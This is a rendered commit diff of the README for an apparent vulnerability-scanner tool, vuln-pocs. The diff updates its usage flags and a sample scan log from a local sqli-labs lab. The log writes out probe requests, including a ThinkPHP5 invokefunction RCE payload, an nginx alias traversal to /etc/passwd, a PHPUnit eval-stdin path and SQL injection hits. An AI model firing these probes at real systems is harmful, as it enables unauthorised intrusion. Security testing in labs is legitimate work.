

Before and after one commit to zz1244324/vuln-pocs, a Markdown page: README.md, the part around one of its changes. Shown at 84% size. Drawn GitHub-style; pictures changed too: docs/d_1.png, docs/d_2.png; blank space fills up the shorter version.

Commit message:
文档:README更新新日志示例/输出文件说明/status判据警告

````diff
--- a/README.md
+++ b/README.md
@@ -7,41 +7,66 @@
 ### 快速开始
 
 需要 Python 3.12 + uv
+
 ```bash
   uv sync                      # 装依赖
-  uv run vuln-pocs <目标URL>
+  uv run vuln-pocs <目标URL1> <目标URL2> #支持多url扫描
 ```
 
 在sqli-lab中的代码演示图
 
 ```bash
-2026-10-10 19:45:46,699 - INFO - [1/6] http://127.0.0.1:8594/index.php.bak 没发现漏洞,模板名:bak-exposed,响应状态:404
-2026-10-10 19:45:48,768 - WARNING - [2/6] http://127.0.0.1:8594/Less-11/ 命中漏洞,模板名:less11-post-sqli
-2026-10-10 19:45:48,769 - WARNING - [3/6] http://127.0.0.1:8594/Less-11/ 命中漏洞,模板名:less11-raw
-2026-10-10 19:45:55,841 - WARNING - [4/6] http://127.0.0.1:8594/Less-9/ 命中漏洞,模板名:less9-time-blind,基线:2.07,payloadtime:7.07
-2026-10-10 19:45:55,841 - WARNING - [5/6] http://127.0.0.1:8594/Less-1/ 命中漏洞,模板名:sqli-error
-2026-10-10 19:45:55,841 - WARNING - [6/6] http://127.0.0.1:8594/Less-18/ 命中漏洞,模板名:xff-spoof
+[进度 1/14] joomla-unauth: clean
+2026-11-01 19:28:24,461 - INFO - http://127.0.0.1:8594/api/index.php/v1/config/application?public=true 没发现漏洞,模板名:joomla-unauth,响应状态:404
+[进度 2/14] bak-exposed: clean
+2026-11-01 19:28:24,475 - INFO - http://127.0.0.1:8594/index.php.bak 没发现漏洞,模板名:bak-exposed,响应状态:404
+[进度 3/14] less11-raw: hit
+2026-11-01 19:28:26,548 - WARNING - http://127.0.0.1:8594/Less-11/ 命中漏洞,模板名:less11-raw:命中词:Your Login name
+[进度 4/14] nginx-alias: clean
+2026-11-01 19:28:26,551 - INFO - http://127.0.0.1:8594/files../etc/passwd 没发现漏洞,模板名:nginx-alias,响应状态:404
+[进度 5/14] phpunit-rce: clean
+2026-11-01 19:28:26,553 - INFO - http://127.0.0.1:8594/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php 没发现漏洞,模板名:phpunit-rce,响应状态:404
+[进度 6/14] shiro-deser: clean
+2026-11-01 19:28:26,557 - INFO - http://127.0.0.1:8594/ 没发现漏洞,模板名:shiro-deser,响应状态:200
+[进度 7/14] less11-post-sqli: hit
+2026-11-01 19:28:26,701 - WARNING - http://127.0.0.1:8594/Less-11/ 命中漏洞,模板名:less11-post-sqli:命中词:Your Login name
+[进度 8/14] ssti: clean
+2026-11-01 19:28:26,705 - INFO - http://127.0.0.1:8594/ 没发现漏洞,模板名:ssti,响应状态:200
+[进度 9/14] thinkphp5-rce: clean
+2026-11-01 19:28:26,709 - INFO - http://127.0.0.1:8594/index.php?s=/Index/%5Cthink%5Capp/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1 没发现漏洞,模板名:thinkphp5-rce,响应状态:404
+[进度 10/14] tomcat-weak-pass: clean
+2026-11-01 19:28:26,712 - INFO - http://127.0.0.1:8594/manager/html 没发现漏洞,模板名:tomcat-weak-pass,响应状态:404
+[进度 11/14] weblogic-ssrf: clean
+2026-11-01 19:28:26,717 - INFO - http://127.0.0.1:8594/uddiexplorer/SearchPublicRegistries.jsp 没发现漏洞,模板名:weblogic-ssrf,响应状态:404
+[进度 12/14] sqli-error: hit
+2026-11-01 19:28:28,616 - WARNING - http://127.0.0.1:8594/Less-1/ 命中漏洞,模板名:sqli-error:命中词:You have an error in your SQL syntax
+[进度 13/14] xff-spoof: hit
+2026-11-01 19:28:28,762 - WARNING - http://127.0.0.1:8594/Less-18/ 命中漏洞,模板名:xff-spoof:命中正则:<title>Less-18[^<]*</title>,匹配内容:<title>Less-18 Header Injectio...
+[进度 14/14] less9-time-blind: hit
+2026-11-01 19:28:33,804 - WARNING - http://127.0.0.1:8594/Less-9/ 命中漏洞,模板名:less9-time-blind:基线:2.25,payloadtime:7.07
 ```
 
 ![运行效果](docs/d_1.png)
 
 ```bash
-  实测时间盲注,post型sql,未授权访问,sql注入
+  实测时间盲注,post型注入、报错注入、XFF头注入
 
 ```
 
 ### 模式
 ```bash
   uv run vuln-pocs <目标URL> --v #详细输出扫描日志
+  uv run vuln-pocs <目标URL> --rate N ##每秒最多发 N 个请求
+  uv run vuln-pocs <目标URL> --workers N #N为设置并发数(默认为3)
 
 ```
-![加--v运行效果](docs/d_2.png)
+
 
 ### 功能
 
 ```bash
-  1.并发:支持并发,修改 max_workers 参数
-  2.raw报文解析:见下图模板格式(目前不支持多发请求,比如盲注)
+  1.已是命令行参数：--workers N（默认 3）
+  2.raw报文解析:见下图模板格式
   3.ast白名单:允许自己设置白名单,目前支持数字常量（int / float） · 变量名 · + · *
   4.探针:用去检查目标是否挂了,会在开始先测试一次可通性
 
````
Also changed, not shown: other parts of README.md (+25 -2 lines).
